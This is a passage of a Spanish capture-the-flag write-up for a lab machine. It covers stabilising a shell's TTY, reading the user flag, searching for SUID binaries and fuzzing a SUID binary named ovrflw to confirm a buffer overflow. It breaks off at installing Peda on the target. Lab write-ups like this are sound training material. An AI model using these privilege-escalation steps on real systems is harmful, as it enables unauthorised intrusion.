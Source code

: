 ### Tratamiento de la TTY {-}

```bash
script /dev/null -c bash
^Z
stty raw -echo; fg
-> reset
-> xterm
export TERM=xterm
export SHELL=bash

stty -a

stty rows <rownb> columns <colnb>
```

Dandole a `cd /home` vemos que hay un usuario harry que contiene el **user.txt** y podemos ver la flag
## Privilege Escalation {-}

### Rootear la maquina {-}

```bash
cd /root
> Permission denied
id
sudo -l
uname -a

find \-perm -4000 2>/dev/null
```

Aqui vemos un binario interesante `./usr/local/bin/ovrflw`

Lanzamos el binario y vemos que nos pide un input string.


### Bufferoverflow {-}

#### Checkamos si es un bufferoverflow {-}

```bash
ovrflw AAAAAA
ovrflw EEEEEEEEEEEEEEE
which python

ovrflw $(python -c 'print "A"*500')
```

Vemos que hay un **segmentation fault** como error, lo que nos dice que este binario es vulnerable a un Bufferoverflow.

#### Installamos Peda en la maquina victima {-}
